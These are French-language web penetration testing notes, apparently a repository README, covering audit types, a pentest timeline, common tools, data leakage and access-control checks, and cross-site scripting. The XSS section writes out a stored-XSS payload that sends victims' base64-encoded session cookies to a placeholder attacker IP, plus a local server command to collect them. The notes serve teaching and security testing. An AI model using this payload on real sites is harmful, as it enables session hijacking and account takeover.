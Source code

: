 # Pentest Web

QUOI ?

Apps webs de différentes natures : 

- Interface administration/configuration
- Interface web déployé pour les employés
- Interface web destinée pour les clients

QUAND ?

Demande faite par l'équipe produit :

- Nouvelle application web
- Nouvelle release
- Re-test

Lors d'audit interne, afin de gagner un "foothold" dans le system (active directory).
Domain Controler (Windows Server): cible en active directory, gère toutes les ressources, PC, groupes....

POURQUOI ?

Détecter des failles de sécurités pouvant être exploitées par:

- Un attaquant externe (blackbox)
- Un attaquant possédant un access legitime (greybox)
- Un employé malintentionné (greybox)

Ports connus :

80 : tcp
443 : https
8080 : http

## Penestration testing

- Black Box : Auditeur simule un attaquant externe, n'a aucune info sur le système
- Grey Box : Auditeur simule un attaquant en tant qu'utilisateur ou un compte administrateur (ayant un pied dans le système)
- White Box : L'équipe produit partage le maximum d'information avec l'auditateur, compte admin, code source

## Timeline d'un pentest web

1)Kick-off :
    Definition du perimetre à tester
    Choix de l'environnement
    Definition du planning
    Definition des points de contact
    |
    |
    |
    [Optionnel] Demo
        Comprendre l'application et toutes les features
        Poser des questions à l'équipe produit

2)Test technique

3) Rédaction du rapport

4) Restitution

## Technique d'attaques

1) Identifier les fonctions à risque
    Intéraction avec la base de données (Input de connection)
    Intéraction avec le file system du serveur (Upload, download)
    Création d'objet (création d'un commentaire, XSS)

2) OWASP TOP 10

Requêtes d'authentification : POST/GET
POST /login.php
username = Hamza&password=pws123

GET /loging.php?username=Hamza&password=pwd123!@
Vulnerability, Logging and Monitoring Failures
= Si on a les logs, on a les credentials en clair

3) Toolings

OS : Kali Linux

**Burpsuite**
Proxy HTTP
Intercepter requete HTTP
Rejouer requete HTTP

**Web scanners**
Burpsuite
Nikto
Owasp ZAP

**Directory Bruteforce**
Dirbuster
Dirb
Dirsearch
Gobuster

## Login Panel (Black Box)

Message d'erreur -> User enumeration
authentification bypass
bruteforce

## Technique Data Leakage

1) Fichier exposé par erreur
    FIchier de configuration
    Fichier random pouvant indiquer des noms d'utilisateurs

2) HTTP Header
    Peuvent reveler la version du software

3) Message d'erreur verbeux
    Peuvent donner la stack d'erreur
    Peuvent reveler la version du software

## Access Control Bypass

Cookie de session valide ? User bon privilège ?

Cookie de session previsible : JSESSIONID:0000000049

## Cross site scripting (XSS)

Executer du code javascript pa le navigateur web de la victime
    Recuperer le cookie de session de la victime
    Simuler une page de login afi de recuperer les identifiants de la victime
    Rediriger vers un site web tiers

Les fonctions à cibler: lorsque le champ entré par un utilisateur est affiché
Exemples:
    Chat
    Commentaires
    Creation d'un objet
    Message d'erreur

<script>alert('XSS')</script>
             |
             |
             f(x) wrapper
\<sript\>------------\<script\>

Stored XSS

Script éxécuter sans avertissement
<script>var i=new Image();i.src="http://IP/?cookie="+btoa(document.cookie);</script>

récupère le cookie d'un user, l'attaquant peut se connecter, si le cookie est alive

flage true : cookie peut être uniquement en http et pas en xss

Cross Origin Policy

IP ne fait pas partie de la liste pouvant communiquer : pas de requête

Avoir serveur, pour récup les donées :
python -m http.server 8000

## Reflected XSS







